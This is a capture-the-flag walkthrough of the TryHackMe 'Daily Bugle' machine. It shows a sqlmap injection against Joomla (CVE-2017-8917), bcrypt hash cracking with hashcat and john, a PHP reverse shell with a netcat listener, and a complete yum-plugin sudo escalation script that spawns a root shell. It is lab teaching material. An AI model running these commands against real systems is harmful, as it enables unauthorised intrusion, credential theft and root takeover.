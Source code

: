 # Summary
We'll compromise a Joomla CMS account via SQL injection. Crack a Blowfish hash and escalate our privileges by taking advantage of yum. It's labeled as hard so let's find out how far we can get.

# Recon
As always we'll start with a port scan on the target:
```
sudo nmap -sV -p- -Pn -oN nmap.txt -O 10.10.5.229 
```
The scan shows multiple open ports:
<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/Daily%20Bugle/assets/1.png">

# Enumeration
There's an Apache webserver running on port 80. After browsing to the website we are welcomed by a CMS. Wappalyzer tells us that it's running Joomla.
<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/Daily%20Bugle/assets/2.png">

I tried SQL injection on the login form, but without any luck.
Let's run joomscan on the target to get more information on Joomla.
<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/Daily%20Bugle/assets/3.png">


We immediately spot that the version is outdated. 
It also returned the content of robots.txt which shows multiple directories.

A quick Google search tells us that this Joomla version is vulnerable to SQL injection.

> CVE-2017-8917 https://www.exploit-db.com/exploits/42033

Let's fire up sqlmap in an attempt to abuse this vulnerability and extract data from the MySQL database.
```
sqlmap -u "http://10.10.5.229/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

# Hash
Sqlmap took ages and in the meantime I searched for more exploits. I found Joomblah which extracts credentials from the database.

> Joomblah https://github.com/stefanlucas/Exploit-Joomla

This resulted in a username and a hash:
<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/Daily%20Bugle/assets/4.png">

Running hashid on the hash tells us that it's probably a Blowfish algorithm:
<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/Daily%20Bugle/assets/5.png">

You can look up which module you have to use at https://hashcat.net/wiki/doku.php?id=example_hashes.
<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/Daily%20Bugle/assets/6.png">
```
hashcat -m 3200 -a 0 hash /usr/share/wordlists/rockyou.txt  
```


Impatient as I am I also start john to crack the hash. Let's see who's faster on this algorithm.
```
john --wordlist=/usr/share/seclists/Passwords/rockyou.txt hash
```
John won and we can now login at the administrator panel of Joomla which we found earlier during enumeration.

# Initial Foothold
I found an article explaining how we can get a reverse shell from the administrator panel

> Article: https://www.hackingarticles.in/joomla-reverse-shell/

Basically we edit an existing page by replacing it's code with a PHP reverse shell. We will use the script from Pentestmonkey.

> php-reverse-shell https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/Daily%20Bugle/assets/7.png">

We change the IP and port and start our netcat listener:
```
rlwrap nc -nlvp 4444
```
> Use rlwrap so you can use the arrow keys without problems.

After we browse to the page we'll get a low privilege shell on the host.
```
http://10.10.5.229/templates/beez3/index.php
```
<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/Daily%20Bugle/assets/8.png">

After searching around a but we find a configuration file in /var/www/html/
<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/Daily%20Bugle/assets/9.png">

We can now try to login at the database but it seems that our IP address is blocked for access.

# Privilege escalation
Searching for users we find ```jjameson```. He's using the same password as root so we can now switch to his account.

```
su jjameson
```

Running ```sudo -l``` tells us we can run /usr/bin/yum as sudo.
<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/Daily%20Bugle/assets/10.png">

A quick search on GTFOBins teaches us we can abuse yum to escalate our privileges:
```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
And we have a root shell:

<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/Daily%20Bugle/assets/11.png">


# Conclusion
Although it's labeled as hard it didn't felt that way. I didn't really got stuck as the process was pretty clear from the start.












